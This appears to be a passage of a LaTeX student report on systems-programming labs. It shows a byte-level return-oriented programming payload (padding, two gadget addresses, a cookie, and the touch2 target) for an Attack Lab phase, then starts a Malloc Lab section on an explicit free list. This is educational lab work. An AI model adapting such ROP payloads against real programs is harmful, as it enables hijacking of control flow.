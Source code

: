 \documentclass[11pt]{report}
\begin{document}
With that information collected we can construct the payload:
\begin{lstlisting}
00 00 00 00 00 00 00 00 /* padding start */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* padding end */
8B 29 40 00 00 00 00 00 /* gadget 1 */
88 7a 22 43 00 00 00 00 /* cookie */
75 29 40 00 00 00 00 00 /* gadget 2 */
7c 27 40 00 00 00 00 00 /* touch2 address */ 
\end{lstlisting}
It starts with the padding, then the first gadget, which will be executed first. Then the cookie will be popped to \textit{\%rax}. Then the second gadget will move the value to \textit{\%rdi}. And finally the address of the \textit{touch2} method, which will be executed after the gadget.\\[1ex]

\chapter{Malloc Lab}
\section{A}
The function \textit{mm\_malloc}, see appendix \ref{appendix:malloc_lab_code_mm_malloc}, takes a size $x$, finds or creates a spot for it on the heap and places it, removing it from available memory. My implementation of malloc lab uses an explicit free list, which is essentially just a linked list between all the free blocks of memory.

An 8-word block of memory is allocated as 10 words, where 2 are used for the header and footer, figure \ref{fig:malloc_lab_a} illustrates such a free block.\\

\begin{figure}[h]
    \centering
    \caption{Free block}
    \label{fig:malloc_lab_a}
\end{figure}
\end{document}

